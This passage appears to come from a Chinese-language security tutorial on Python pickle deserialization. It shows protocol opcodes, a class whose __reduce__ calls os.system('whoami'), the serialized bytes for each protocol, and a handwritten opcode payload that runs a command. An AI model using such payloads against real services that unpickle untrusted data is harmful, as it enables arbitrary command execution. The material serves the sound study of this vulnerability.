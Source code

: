 ```python
BYTEARRAY8       = b'\x96'  # push bytearray
NEXT_BUFFER      = b'\x97'  # push next out-of-band buffer
READONLY_BUFFER  = b'\x98'  # make top of stack readonly
```

上文谈到了`opcode`是有多个版本的, 在进行序列化时可以通过`protocol=num`来选择`opcode`的版本, 指定的版本必须小于等于`5`.

~~~python
import os
import pickle

class Demo():
    def __init__(self, name='h3rmesk1t'):
        self.name = name

    def __reduce__(self):
        return (os.system, ('whoami',))
demo = Demo()
for i in range(6):
    print('[+] pickle v{}: {}'.format(str(i), pickle.dumps(demo, protocol=i)))

print("默认")
print(pickle.dumps(demo))
~~~

~~~python
[+] pickle v0: b'cnt\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
[+] pickle v1: b'cnt\nsystem\nq\x00(X\x06\x00\x00\x00whoamiq\x01tq\x02Rq\x03.'
[+] pickle v2: b'\x80\x02cnt\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v3: b'\x80\x03cnt\nsystem\nq\x00X\x06\x00\x00\x00whoamiq\x01\x85q\x02Rq\x03.'
[+] pickle v4: b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
[+] pickle v5: b'\x80\x05\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
默认
b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
~~~

会发现，默认的pickle.dumps进行序列化是v4，

我们对`b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'`进行翻译还原

基本模式:

```python
c<module>
<callable>
(<args>
tR.
```

这里用一段简短的字节码来演示利用过程:

```python
cos
system
(S'whoami'
tR.
```
